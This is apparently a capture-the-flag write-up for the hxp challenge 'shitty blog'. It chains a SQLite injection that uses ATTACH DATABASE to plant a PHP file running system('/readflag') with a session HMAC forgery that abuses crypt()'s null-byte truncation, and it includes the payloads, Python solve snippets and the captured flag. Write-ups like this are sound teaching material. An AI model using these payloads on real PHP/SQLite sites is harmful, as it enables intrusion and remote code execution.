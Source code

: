 shitty blog 🤎
=====

Writeup by: ath0 and qxxxb


Challenge Author: 0xbb

Files: `shitty blog 🤎-a6c0b8b672817005.tar.xz`


Overview
=====

The main logic of the challenges resides in one file, `index.php`.

There is a per-session SQLite database that gets created at
`'/var/www/html/data/' . md5($salt.'|'.$id.'|'.$mac);`. In the session cookie,
there is a user id (`$id`) and a HMAC which will be verified:

```php
    $session = explode('|', $_COOKIE['session']);
    if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])) {
        exit();
    }
    $id = $session[0];
    $mac = $session[1];
```

If we can forge a valid HMAC, we can move forward with a totally controlled `$id` (more on the forgery later).

qxxxb noticed some interesting bits in the nginx config:

``` nginx
location / {
        try_files $uri $uri/ =404;
}
```

We can visit `http://localhost:8888/data/<sandbox_url>/blog.sqlite3` and we'll be
able to read our sqlite database back. But this doesn't help us achive our
ultimate goal: We need to execute `/readflag` (neither nginx nor php have the
ability to read `flag.txt` directly), so we need RCE. The other thing to note
is nginx is setup to send any file ending in `.php` through the php interpreter:

```nginx
location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;
}
```

So if we can write a `.php` file somewhere in `/var/www/html/`, we can just
visit that URL and it will get executed! But how can we create such a file?


Luckily, there's another vulnerability which is likely the first thing you'll notice when scanning `index.php`:

```php
function delete_entry($db, $entry_id, $user_id) {
    $db->exec("DELETE from entry WHERE {$user_id} <> 0 AND id = {$entry_id}");
}
```

SQL injection on `$user_id`! So if we can cram a SQL injection payload into
`$user_id`, we can use any of the capabilities of SQLite.


Exploit
=====

SQL injection to RCE
----

Assuming we can control the user id (requires HMAC forgery, below), how will we
get code execution?

Some [cheat sheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet) I found online shows you can create SQLite databases with arbitrary names:

```
1';ATTACH DATABASE ‘/var/www/lol.php’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES ('hax'); --
```

And nginx is setup to send any file ending in .php through the php interpreter:

```nginx
location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php7.4-fpm.sock;
}
```

So our SQL injection payload just needs to create a file at `/var/www/html/data/lol-abcdefg.php` containing `<?php system('/readflag;') ?>` anywhere within the file.

So the SQL injection payload we need (with quotes correctly encoded) is:

```
'; ATTACH DATABASE '/var/www/html/data/lol-abcdefg.php' AS lol; CREATE TABLE lol.pwn (dataz test); INSERT INTO lol.pwn (dataz) VALUES ('<?php system(''/readflag'') ?>'); --
```

(the `--` at the end starts a comment)

Forging a HMAC
=====

Here is the relevant code from the `index.php`:

```php
# Generating an HMAC
$mac = substr(crypt(hash_hmac('md5', $id, $secret, true), $salt), 20);

# Verifying an HMAC
if( ! hash_equals(crypt(hash_hmac('md5', $session[0], $secret, true), $salt), $salt.$session[1])) {
    exit();
}
```

The fourth `true` argument to `hash_hmac()` is for the parameter `binary`:
> When set to true, outputs raw binary data. false outputs lowercase hexits.

However, the documentation for `crypt()` shows:
> **Warning**: This function is not (yet) binary safe!

It turns out that `crypt()` considers its inputs as null-terminated strings. As
shown
[here](https://www.reddit.com/r/PHP/comments/t0qzl/is_this_a_bug_shouldnt_crypt_be_binary_safe/),
everything after the null byte is ignored:
```php
>>> assert(
    crypt(b"\x00stuff", '$6$89bc41658a01fb6b$') ==
    crypt(b"\x00ignored", '$6$89bc41658a01fb6b$')
)
=> true
```

The first step is to find a `$mac` where
`hash_hmac('md5', $id, $secret, true)` starts with a null byte.

The probability of this happening for a random `$id` is `1 / 256`. If it
happens twice, we'll get two identical `$mac` values. Here's code to retrieve the null MAC:

```python
def get_null_mac():
    mac_counter = set()
    for i in tqdm(itertools.count()):
        res = requests.get(URL_BASE)
        id, mac = urllib.parse.unquote(res.cookies["session"]).split("|")
        if mac in mac_counter:
            return mac
        mac_counter.add(mac)

    raise ValueError("Unreachable")
```

Now that we have the null MAC, we can append junk at the end of our SQLi
payload inside a comment and until its MAC matches our null MAC (`1 / 256`
chance):

```python
def attempt_sqli(junk: str, null_mac: str):
    payload = (
        "'test'; ATTACH DATABASE '/var/www/html/data/lol-abcdefg.php' AS lol; CREATE TABLE lol.pwn (dataz test); INSERT INTO lol.pwn (dataz) VALUES ('<?php system(''/readflag'') ?>'); -- "
        + junk
    )
    # ...
```

Full solve script in `solve.py`.

```
$ python3 solve.py
[*] Looking for null MAC ...
207it [01:15,  2.73it/s]
[+] null_mac = yC8z7vD9vdpSERKREHFfJ/PpyNg9yAXh00wZHnh8AlIehpWVmVxzrjphnbjrpiCr6Umu9D2l.CUSzAIlqQjLR/
[*] Attempting SQLi ...
post_id = 1
hxp{dynamically_typed_statically_typed_php_c_I_hate_you_all_equally__at_least_its_not_node_lol_:(}

37it [00:15,  2.44it/s]
```

